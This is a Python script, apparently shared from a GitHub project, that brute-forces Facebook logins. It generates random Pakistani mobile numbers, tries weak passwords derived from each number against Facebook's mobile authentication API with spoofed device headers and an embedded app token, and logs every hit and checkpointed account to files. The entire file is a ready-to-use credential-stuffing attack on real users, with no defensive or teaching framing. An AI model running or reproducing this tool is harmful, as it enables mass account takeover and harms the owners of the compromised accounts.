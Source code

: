 ###-------[IMPORT MODULES]-----------####

import os
import sys
import time
import uuid
import json
import string
import random
import requests
from requests.exceptions import ConnectionError
from concurrent.futures import ThreadPoolExecutor

###-------[BASIC COLORS]-----------####
reset = "\033[0m"
red = "\033[1;31m"
green = "\033[1;32m"
yellow = "\033[1;33m"
blue = "\033[1;34m"
cyan = "\033[1;36m"
white = "\033[1;37m"

###-------[FLASH COLORS]-----------####
colors = ["\033[1;30m", "\033[1;30m", "\033[0;31m", "\033[1;31m", "\033[0;32m", "\033[1;32m","\033[0;92m","\033[1;92m","\033[1;93m","\033[1;94m","\033[1;95m","\033[1;96m","\033[0;33m", "\033[1;33m", "\033[0;34m", "\033[1;34m", "\033[0;35m", "\033[1;35m", "\033[0;36m", "\033[1;36m", "\033[0;37m", "\033[1;37m", "\033[1;90m", "\033[0;91m","\033[1;91m", "\033[0;92m", "\033[1;93m", "\033[0;94m", "\033[1;94m", "\033[0;95m","\033[1;95m", "\033[0;96m", "\033[1;96m", "\033[0;97m", "\033[0;100m", "\033[1;100m","\033[0;101m", "\033[1;101m", "\033[0;102m", "\033[1;102m","\033[0;104m", "\033[1;104m", "\033[0;105m", "\033[1;105m", "\033[0;106m", "\033[1;106m"]

###-------[LOOP]-----------####
loop = 0
idz = []
oks = []
cps = []

sys.stdout.write('\x1b[1;35m\x1b]2;🌹🌻🍂💛 Alihassan 🙂💗 \x07')

try:os.mkdir('/sdcard/HASSAN')
except:pass


###-------[LOGO]-----------####
logo= f'''\033[1;97m
     
 __ __   ____  _____ _____  ____  ____  
|  |  | /    |/ ___// ___/ /    ||    \ 
|  |  ||  o  (   \_(   \_ |  o  ||  _  |
|  _  ||     |\__  |\__  ||     ||  |  |
|  |  ||  _  |/  \ |/  \ ||  _  ||  |  |
|  |  ||  |  |\    |\    ||  |  ||  |  |
|__|__||__|__| \___| \___||__|__||__|__|
                                        
 
     
\033[1;97m---------------------------------------------------
 \033[1;97m[\033[1;92m•\033git clone https://github.com/HASSAN-XD129/Hassan
cd Hassan

 \033[1;97m[\033[1;92m•\033[1;97m] Author   : HASSAN-TRICKER
 \033[1;97m[\033[1;92m•\033[1;97m] Facebook : ALI HASSAN
 \033[1;97m[\033[1;92m•\033[1;97m] GitHub   : HASSAN-XD129
 \033[1;97m[\033[1;92m•\033[1;97m] Version  : \033[1;92m0.2
\033[1;97m---------------------------------------------------
'''


###-------[CLEAR TERMINAL]-----------####
def clear():
    os.system("clear")
    print(logo)



###-------[LINE]-----------####
def linex():
    print(f"\033[1;97m--------------------------------------------------")



###-------[MSIN MENU]-----------####
def menu():
    clear()
    print(f" \033[1;97m[\033[1;92m01\033[1;97m] RANDOM NUMBER CLONING")
    print(f" \033[1;97m[\033[1;92m02\033[1;97m] \x1b[38;5;208mVISIT YOUTUBE CHANNEL")
    print(f" \033[1;97m[\033[1;92m03\033[1;97m] \033[1;32mCONTACT DEVELOPER")
    linex()
    younisxyz = input(f" \033[1;97m[\033[1;92m?\033[1;97m] Select Option : ")
    if younisxyz in ['1','01']:
        random_number()
    elif younisxyz in ['2','02']:
        os.system("xdg-open https://www.youtube.com/@HASSAN-TRICKER.007")
        time.sleep(3)
        menu()
    elif younisxyz in ['3','03']:
    	os.system("xdg-open https://www.facebook.com/profile.php?id=100066853569346&mibextid=ZbWKwL");time.sleep(3);menu()
    else:
        print(f"\n\033[1;91m Select valid option ....")
        time.sleep(3)
        menu()


###-------[DEF CLONING]-----------####
def random_number():
    clear()
    print(f" \033[1;97m[\033[1;92m•\033[1;97m] Codes : \033[1;92m0310, 0320, 0330, 0340 ")
    print(f" \033[1;97m[\033[1;92m•\033[1;97m] Limit : \033[1;92m1000, 2000, 5000, 10000 ")
    linex()
    code = input(f" \033[1;97m[\033[1;92m?\033[1;97m] Enter Code  :\033[1;92m ")
    try:
        limit = int(input(f" \033[1;97m[\033[1;92m?\033[1;97m] Enter Limit :\033[1;92m "))
    except ValueError:
        limit = 5000
    for _ in range(limit):
        x = "".join(random.choice(string.digits) for _ in range(7))
        idz.append(x)
    with ThreadPoolExecutor(max_workers=30) as XYZ:
        clear()
        total_idz = str(len(idz))
        print(f"\033[1;96m BRUTE HAS BEEN STARTED BE PATIENT")
        print()
        linex()
        print(f' \033[1;32m(√) \033[1;37mTotal IDs  :\033[1;32m ',total_idz)
        print(' \033[1;37m{\033[1;32m+\033[1;37m} \033[1;35mCHOICE SIM CODE : \033[1;32m'+code)
        print(" \x1b[38;5;208m(!) \x1b[38;5;205mUse Flight Mode For Speed UP");print(' \033[1;33m[•] \033[1;37mYour \033[1;32mOK\033[1;37m/\033[1;33mCP\033[1;37m IDs Save in \033[1;32m>\033[1;37m /sdcard/XYZ')
        linex()
        for xyz in idz:
            uid = code+xyz
            pww = [xyz,uid] 
            XYZ.submit(crack, uid, pww, total_idz)
    linex()
    print(f" \033[1;97m[\033[1;92m!\033[1;97m] Process Completed ")
    print(f" \033[1;97m[\033[1;92m•\033[1;97] Total Ok Accounts : \033[1;92m{str(len(oks))} ")
    print(f" \033[1;97m[\033[1;92m•\033[1;97m] Total Cp Accounts : \033[1;91m{str(len(cps))} ")
    linex()
    input(f" \033[1;97m[\033[1;91m!\033[1;97m] Press Enter To Back ")
    menu()


###-------[METHOD CRACK]-----------####
def crack(uid, pww, total_idz):
    global loop
    global oks
    global cps
    x = random.choice(["\033[1;90m","\033[1;91m","\033[1;92m" ,"\x1b[38;5;208m","\033[1;93m","\033[1;94m","\033[1;95m","\033[1;96m"])
    sys.stdout.write(f"\r{x}[Hassan] {loop}/{total_idz} \033[1;92m{len(oks)}\033[1;97m/\033[1;91m{len(cps)} \033[1;97m[\033[1;93m{'{:.0%}'.format(loop/float(total_idz))}\033[1;97m] ")
    sys.stdout.flush()
    try:
        for pw in pww:
            fb_version = str(random.randint(100,436))+".0.0."+str(random.randint(11,99))+"."+str(random.randint(100,150))
            fb_version_code = str(random.randint(111111111,999999999))
            uppercase_letter = "".join(random.choice(string.ascii_uppercase))
            three_digit = "".join(random.choice(string.digits) for _ in range(3))
            device_model = f"SM-{uppercase_letter}{three_digit}{uppercase_letter}"
            android_version = str(random.randint(8,13))
            ua = f"[FBAN/FB4A;FBAV/{fb_version};FBBV/{fb_version_code};FBDM/{{density=3.2,width=1080,height=1920}};FBLC/en_GB;FBRV/631869122;FBCR/Zong;FBMF/samsung;FBBD/samsung;FBPN/com.facebook.katana;FBDV/{device_model});FBSV/{android_version};FBOP/19;FBCA/armeabi-v7a:armeabi;]"
            sex = random.choice(["Liger", "METERED", "MOBILE.EDGE", "MOBILE.HSPA", "MOBILE.LTE", "MODERATE"])
            data = {
                "adid": str(uuid.uuid4()),
                "format": "json",
                "device_id": str(uuid.uuid4()),
                "cpl": "true",
                "family_device_id": str(uuid.uuid4()),
                "credentials_type": "device_based_login_password",
                "error_detail_type": "button_with_disabled",
                "source": "register_api",
                "email": uid,
                "password": pw,
                "access_token": "350685531728|62f8ce9f74b12f84c123cc23437a4a32",
                "generate_session_cookies": "1",
                "meta_inf_fbmeta": "NO_FILE",
                "advertiser_id": str(uuid.uuid4()),
                "currently_logged_in_userid": "0",
                "locale": "en_PK",
                "device": "Samsung",
                "sdk": "Android",
                "client_country_code": "PK",
                "method": "auth.login",
                "fb_api_req_friendly_name": "authenticate",
                "fb_api_caller_class": "com.facebook.account.login.protocol.Fb4aAuthHandler",
                "api_key": "882a8490361da98702bf97a021ddc14d",
            }
            headers = {
            'authority': 'm.facebook.com',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
            'accept-language': 'en-US,en;q=0.9',
            'cache-control': 'max-age=0',
            'dpr': '2',
            'sec-ch-prefers-color-scheme': 'light',
            'sec-ch-ua': '"Not_A Brand";v="8", "Chromium";v="120"',
            'sec-ch-ua-full-version-list': '"Not_A Brand";v="8.0.0.0", "Chromium";v="120.0.6099.116"',
            'sec-ch-ua-mobile': '?1',
            'sec-ch-ua-model': '"Infinix X688B"',
            'sec-ch-ua-platform': '"Android"',
            'sec-ch-ua-platform-version': '"11.0.0"',
            'sec-fetch-dest': 'document',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-site': 'none',
            'sec-fetch-user': '?1',
            'upgrade-insecure-requests': '1',
            'user-agent': 'Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Mobile Safari/537.36',
            'viewport-width': '980',}
            url = "https://b-graph.facebook.com/auth/login"
            po = requests.post(url, data=data, headers=headers).json()
            if "session_key" in po:
                print(f"\r\033[1;92m [HASSAN-OK] {uid} | {pw}")
                open("/sdcard/HASSAN/RANDOM_OK.txt", "a").write(f"{uid}|{pw}\n")
                oks.append(uid)
                break
            elif "www.facebook.com" in po["error"]["message"]:
                cpclr = random.choice(["\033[1;90m","\033[1;91m","\x1b[38;5;205m" ,"\x1b[38;5;208m","\033[1;93m","\033[1;94m","\033[1;95m","\033[1;96m"])
                print(f"\r{cpclr} [HASSAN-CP] {uid} | {pw}")
                open("/sdcard/HASSAN/RANDOM_CP.txt", "a").write(f"{uid}|{pw}\n")
                cps.append(uid)
                break
            else:
                continue
        loop+=1
    except ConnectionError:
        time.sleep(10)
    except:
        pass



menu()
